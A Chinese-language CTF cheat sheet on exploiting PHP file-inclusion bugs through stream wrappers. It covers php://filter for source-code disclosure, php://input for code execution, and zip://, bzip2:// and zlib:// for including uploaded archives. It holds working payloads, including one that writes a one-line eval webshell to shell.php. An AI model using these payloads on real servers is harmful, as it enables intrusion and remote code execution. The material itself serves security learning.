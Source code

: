 #### php://

条件

```txt
allow_url_fopen:off/on

allow_url_include : 部分需要on (下面列出)

php://input

php://stdin

php://memory 

php://temp
```

**作用：**

php:// 访问各个输入/输出流（I/O streams），在CTF中经常使用的是 `php://filter` 和 `php://input`

php://filter用于**读取源码**，php://input用于**执行**php代码

**示例：**

```php
#1. php://filter/read=convert.base64-encode/resource=[文件名]  //读取文件源码
http://127.0.0.1/include.php?file=php://filter/read=convert.base64-encode/resource=phpinfo.php

#2.php://input + [POST DATA]执行php代码
http://127.0.0.1/include.php?file=php://input
[POST DATA部分] <?php phpinfo(); ?>

#3.若有写入权限，[POST DATA部分] 写入一句话木马
<?php fputs(fopen('shell.php','w'),'<?php @eval($_GET[cmd]); ?>'); ?>
```

#### zip:// & bzip2:// & zlib://

**作用：**

`zip:// & bzip2:// & zlib://` 均属于压缩流，可以访问压缩文件中的子文件

更重要的是不需要指定后缀名，可修改为任意后缀：`jpg png gif xxx` 等等

**示例：**

```php
1.zip://[压缩文件绝对路径]%23[压缩文件内的子文件名]（#编码为%23）
<!--压缩 phpinfo.txt 为 phpinfo.zip ，压缩包重命名为 phpinfo.jpg ，并上传-->
http://127.0.0.1/include.php?file=zip://C:\phpStudy\PHPTutorial\WWW\phpinfo.jpg%23phpinfo.txt

2.compress.bzip2://file.bz2
<!--压缩 phpinfo.txt 为 phpinfo.bz2 并上传（同样支持任意后缀名）-->
http://127.0.0.1/include.php?file=compress.bzip2://C:\phpStudy\PHPTutorial\WWW\phpinfo.bz2

3.compress.zlib://file.gz 
<!--压缩 phpinfo.txt 为 phpinfo.gz-->
http://127.0.0.1/include.php?file=compress.zlib://C:\phpStudy\PHPTutorial\WWW\phpinfo.gz
```
